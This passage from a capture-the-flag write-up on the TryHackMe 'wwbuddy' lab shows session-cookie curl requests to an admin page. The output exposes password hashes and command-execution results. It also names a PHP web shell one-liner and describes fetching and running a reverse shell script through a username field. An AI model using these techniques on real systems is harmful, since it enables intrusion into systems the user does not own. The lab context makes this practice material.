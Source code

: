 ![19](/assets/images/thm/wwbuddy/19.png)

### Accessing /admin with this user
```console
local@local:~/Documents/tryhackme/wwbuddy$ curl -H 'Cookie: PHPSESSID=be5injo6o0mbgsfssejddqq8d8' http://10.10.39.232/admin/
You dont have permissions to access this file, this incident will be reported.
```
### Accessing /admin with Henry
```console
local@local:~/Documents/tryhackme/wwbuddy$ curl -H 'Cookie: PHPSESSID=40msliho8kqgvm0tlcci4kcqi0' http://10.10.39.232/admin/
Hey Henry, i didn't made the admin functions for this page yet, but at least you can see who's trying to sniff into our site here.<br>
<!--THM{d0nt_***_4n***ng_f**y} -->

192.168.0.139   2020-07-24 22:54:34   WWBuddy fc18e5f4aa09bbbb7fdedf5e277dda00 <br>
192.168.0.139   2020-07-24 22:56:09   Roberto b5ea6181006480438019e76f8100249e <br>

10.6.31.213   2020-11-08 10:37:09   admin 75f1edc5388e8a88a232fd0a0432173f <br>
10.6.31.213   2020-11-08 11:19:42   WWBuddy fc18e5f4aa09bbbb7fdedf5e277dda00 <br>
10.6.31.213   2020-11-08 11:29:48     <br>
10.6.31.213   2020-11-08 11:32:12     <br>
10.6.31.213   2020-11-08 11:35:16   uid=33(www-data) gid=33(www-data) groups=33(www-data)
 75f1edc5388e8a88a232fd0a0432173f <br>
 ```
 We get code execution and get our first flag.
Using `<?php system($_GET['cmd']) ?>` gave an error for some reason, so I created a file called shell.sh on my box with reverse shell payload, opened up an http server using python and fetched the file first and executed on the second time as there was a limit on how long the username should be.
